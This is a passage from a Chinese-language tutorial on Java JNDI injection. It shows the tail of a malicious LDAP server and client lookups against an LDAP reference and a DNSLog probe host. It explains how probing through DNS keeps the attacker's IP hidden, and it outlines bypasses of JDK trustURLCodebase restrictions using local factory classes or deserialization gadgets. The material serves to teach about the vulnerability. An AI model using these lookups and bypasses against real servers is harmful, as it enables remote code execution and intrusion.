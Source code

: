                 result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
            }

        }
    }
    ```
=== "LDAP Client"

    ```java
    import javax.naming.InitialContext;
    import javax.naming.NamingException;


    public class LDAPClient {
        public static void main(String[] args) throws NamingException{
            String url = "ldap://127.0.0.1:1234/Calculator";
            InitialContext initialContext = new InitialContext();
            initialContext.lookup(url);
        }

    }
    ```

攻击方式同上

### DNS

JNDI 注入可以利用 RMI 协议和LDAP 协议搭建服务然后执行命令，但缺点在于，没有确定存在漏洞前，使用 RMI 或者 LDAP 去执行命令，服务器通过日志可分析得到攻击者的 IP。为了解决这个问题，可以使用DNS 协议进行探测，通过 DNS 协议去探测是否真的存在漏洞，再去利用 RMI 或者 LDAP 去执行命令，避免过早暴露服务器 IP，这也是平常大多数人习惯使用 DNSLog 探测的原因之一，同样的 ldap 和 rmi 也可以使用 DNSLog 平台去探测。

??? note "code"

    ```java
    import javax.naming.InitialContext;
    import javax.naming.NamingException;


    public class LDAPClient {
        public static void main(String[] args) throws NamingException{
            String url = "dns://192rzl.dnslog.cn";
            InitialContext initialContext = new InitialContext();
            initialContext.lookup(url);
        }

    }
    ```

## JNDI 绕过

高版本JDK在RMI和LDAP的trustURLCodebase都做了限制，从默认允许远程加载ObjectFactory变成了不允许。对于Oracle JDK 11.0.1、8u191、7u201、6u211或者更高版本的JDK来说，默认环境下之前这些利用方式都已经失效。然而，我们依然可以进行绕过并完成利用。两种绕过方法如下：

1. 找到一个受害者本地CLASSPATH中的类作为恶意的Reference Factory工厂类，并利用这个本地的Factory类执行命令。
2. 利用LDAP直接返回一个恶意的序列化对象，JNDI注入依然会对该对象进行反序列化操作，利用反序列化Gadget完成命令执行。

这两种方式都非常依赖受害者本地CLASSPATH中环境，需要利用受害者本地的Gadget进行攻击。
